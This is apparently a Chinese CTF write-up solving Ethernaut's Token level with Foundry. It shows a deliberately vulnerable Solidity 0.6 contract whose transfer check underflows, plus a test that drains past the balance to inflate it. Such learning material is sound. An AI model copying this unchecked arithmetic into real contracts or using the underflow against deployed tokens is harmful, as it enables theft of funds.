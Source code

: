 # Foundry 通关 Ethernaut（4）— Token

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

增加用户 balance

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor：** 记录合约部署者的余额为给定值
2. **transfer**:
   1. 输入目标转账地址以及转账值
   2. 当 balances 映射中用户记录的余额 减去要转账的金额大于等于 0 时
   3. 用户余额减少，目标地址余额增加

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

## 思路

对于 uint256 类型来说，范围是 0 - 2的256次方，超过这个范围，溢出后会从最大值或最小值开始计算，也就是说：

下溢  ：0-1 = 2的256次方

上溢  ：2的256次方 + 1 = 0

这个合约中，即使用了 0.6 版本，没有修复 uint 类型的溢出，也没有引入例如 SafeMath 这种安全库，我们只要使 `balances[msg.sender] - _value` 下溢，即可使其值变大，也就是说：

输入一个比当前余额大的值，反而余额增多

## foundry 复现

这里的版本和之前几关版本都不同，因此我采用了最朴素的办法，直接新建一个foundry 项目

### 1. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
// 处理关于结构体等复杂数据
pragma experimental ABIEncoderV2;
pragma solidity 0.6.12;

import {Test, console} from "forge-std/Test.sol";
import {Token} from "../src/Token.sol";

contract TokenTest is Test {
    Token public token;
    address public owner = vm.addr(123);
    address public attacker = vm.addr(456);

    function setUp() external {
        vm.prank(owner);
        token = new Token(20);
    }

    function test_attack() public {
        console.log("before",token.balanceOf(owner),token.balanceOf(attacker));
        vm.prank(owner);
        token.transfer(attacker, 22);
        console.log("after",token.balanceOf(owner),token.balanceOf(attacker));
    }
}
```

这里初始设置用户 token 为20，但是转给 attacker 22

### 2. 测试

终端输入

```solidity
forge test --match-path test/Token.t.sol -vvvv
```

![image-20240905170214589](../pict/image-20240905170214589.png)

我们可以看到，在给attack转账超过自身余额值后，用户自己的余额增加到一个非常大的数